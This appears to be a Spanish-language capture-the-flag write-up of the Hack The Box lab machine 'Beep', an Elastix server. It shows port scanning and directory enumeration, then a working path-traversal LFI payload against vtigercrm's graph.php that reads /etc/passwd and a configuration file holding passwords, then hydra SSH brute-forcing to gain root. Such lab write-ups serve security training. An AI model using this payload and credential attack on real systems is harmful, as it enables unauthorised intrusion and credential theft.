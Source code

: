 # Beep ![Avatar](https://www.hackthebox.eu/storage/avatars/995f465295b99869fce21ecadea4604c_thumb.png)

### Initial Scan

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES LOGIN-DELAY(0) PIPELINING EXPIRE(NEVER) STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE USER UIDL TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ATOMIC THREAD=ORDEREDSUBJECT ACL CHILDREN OK IMAP4 URLAUTHA0001 X-NETSCAPE LIST-SUBSCRIBED ID ANNOTATEMORE UIDPLUS Completed IMAP4rev1 CONDSTORE SORT=MODSEQ STARTTLS QUOTA NO CATENATE UNSELECT RENAME LITERAL+ NAMESPACE LISTEXT THREAD=REFERENCES IDLE RIGHTS=kxte SORT BINARY MAILBOX-REFERRALS MULTIAPPEND
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-29T08:26:37+00:00; +10s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
```

### Enumeration

#### HTTP
```bash
gobuster -u https://10.10.10.7/ -w /usr/share/dirb/wordlists/big.txt -t 100 -k
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/cgi-bin/ (Status: 403)
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/vtigercrm (Status: 301)
/var (Status: 301)
```
Accediendo a la web vemos que la tecnología usada es Elastix, busquemos en Searchsploit
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                            | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                          | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                    | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                 | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                               | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                           | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

### Exploit

Vamos a probar el LFI
```URL
https://www.exploit-db.com/exploits/37637
```
Checkeando el exploit vemos que para explotar el LFI usamos el siguiente payload
```
payload = Hostname + '/vtigercrm/graph.php?current_language=../../../../../../../../' + RouteToFile + '%00&module=Accounts&action'
```
Accedamos a /etc/passwd para enumerar usuarios con acceso via terminal
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
Tenemos 6 usuarios disponibles veamos si las creds para alguno coinciden con las creds de la pagina

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=amp111
FOPPASSWORD=passw0rd
```
Generamos una lista con los 6 usuarios y las contraseñas que tenemos y probamos con hydra
```bash
hydra ssh://10.10.10.7 -L users.txt -P passwords.txt
```
Casi inmediatamente obtenemos resultados
```
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```
Cuando nos logeamos nos da un pequeño problema con el intercmabio de claves
```
no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
Para solucionarlo y poder logearnos sin problemas con el intercambio de claves usamos el siguiente comando
```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
```
Y ya solo nos faltaría obtener las dos flag
```
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# wc -c root.txt 
33 root.txt
[root@beep ~]# find / -name user.txt -exec wc -c {} \; 2>/dev/null
33 /home/fanis/user.txt
```
